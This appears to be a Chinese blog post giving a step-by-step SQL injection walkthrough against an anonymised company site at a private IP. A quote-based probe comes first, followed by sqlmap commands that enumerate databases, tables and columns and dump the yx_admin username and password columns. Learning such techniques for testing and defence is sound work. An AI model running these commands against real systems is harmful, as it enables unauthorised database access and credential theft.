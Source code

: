```yaml
---
title: sql实例(X集团)
date: 2022-03-28
cover: https://s1.ax1x.com/2022/03/28/qrv4DU.jpg
tags:
 - sql
categories:
 - sql注入
---
```


## sql注入（X集团实例）

第一步：进入网站寻找到拥有id=（任意数字）末尾的url，使用sql注入语句进行测试。
<img src="https://s1.ax1x.com/2022/03/28/qrbhuQ.png">
`'1 and 1=1`

第二步：使用sqlmap工具开始进行注入测试，扫出所有数据。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch -dbs`

<img src="https://s1.ax1x.com/2022/03/28/qrjEWt.png">
<img src="https://s1.ax1x.com/2022/03/28/qrOk0H.png">

第三步：通过sqlmap扫出当前所处数据库。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch --current-db`

<img src="https://s1.ax1x.com/2022/03/28/qrjEWt.md.png">
<img src="https://s1.ax1x.com/2022/03/28/qrOFne.png">

第四步：使用sqlmap工具扫出所使用的表。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch -D yanshi --tables`

<img src="https://s1.ax1x.com/2022/03/28/qrb4Bj.png">
<img src="https://s1.ax1x.com/2022/03/28/qrb740.png">

第五步：通过上图可以发现yx_admin的一个数据表，我们可以尝试注入查看内容，通过sqlmap扫出该表中拥有的列。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch -D yanshi -T yx_admin -columns`

<img src="https://s1.ax1x.com/2022/03/28/qrb5Hs.png">
<img src="https://s1.ax1x.com/2022/03/28/qrboEn.png">

第六步：可以发现该表中拥有username和password两列，所以使用--dump查看这两列。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch -D yanshi -T yx_admin -C username,password --dump`

<img src="https://s1.ax1x.com/2022/03/28/qrbTNq.png">

注入成功，得到用户名和密码。
<img src="https://s1.ax1x.com/2022/03/28/qrbbCV.png">